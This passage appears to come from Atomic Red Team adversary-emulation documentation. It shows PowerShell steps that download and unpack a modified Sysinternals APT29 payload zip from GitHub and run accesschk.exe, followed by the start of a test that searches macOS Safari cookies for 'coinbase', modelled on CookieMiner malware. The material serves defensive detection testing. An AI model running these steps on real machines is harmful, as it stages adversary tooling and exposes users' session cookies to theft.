 
#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location -path "#{file_path}\Sysinternals";
./accesschk.exe -accepteula .;
```

#### Cleanup Commands:
```powershell
Remove-Item "#{file_path}\Sysinternals" -Force -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Modified Sysinternals must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_path}\SysInternals") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "#{file_path}\Modified-SysInternalsSuite.zip"
Expand-Archive "#{file_path}\Modified-SysInternalsSuite.zip" "#{file_path}\sysinternals" -Force
Remove-Item "#{file_path}\Modified-SysInternalsSuite.zip" -Force
```




<br/>
<br/>

## Atomic Test #2 - Search macOS Safari Cookies
This test uses `grep` to search a macOS Safari binaryCookies file for specified values. This was used by CookieMiner malware.

Upon successful execution, MacOS shell will cd to `~/Libraries/Cookies` and grep for `Cookies.binarycookies`.

**Supported Platforms:** macOS


**auto_generated_guid:** c1402f7b-67ca-43a8-b5f3-3143abedc01b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_string | String to search Safari cookies to find. | string | coinbase|
